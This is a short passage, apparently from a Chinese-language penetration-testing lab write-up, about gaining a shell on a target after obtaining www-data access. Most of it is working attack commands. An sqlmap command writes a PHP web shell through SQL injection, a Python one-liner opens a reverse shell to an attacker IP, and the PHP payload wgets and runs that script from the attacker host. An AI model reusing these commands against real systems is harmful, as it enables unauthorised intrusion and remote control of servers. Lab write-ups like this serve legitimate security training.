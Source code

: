 [![](assets/1703831504-16ce136de3546b8ca5ed7c7738bce20d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163915-6a90f82a-a493-1.png)

> 拿到 www-data 权限

<5>此外，曾经也遇到过类似问题，解决方法是换一种姿势，sqlmap 上传 get2255.php，浏览器访问/get2255.php，让靶机在 tmp 下 wget 反弹 shell 后执行，就可以监听到反弹 shell

```bash
//上传 shell
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --file-write='/home/wsec/0X0CpWnOS2/get2255.php' --file-dest='/var/www/get2255.php'

//shell2255.py
export RHOST="10.10.10.23";export RPORT=2255;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

//get2255.py
<?php system('cd /tmp;wget 10.10.10.23:9000/shell2255.py;chmod +x shell2255.py;./shell2255.py')?>
```
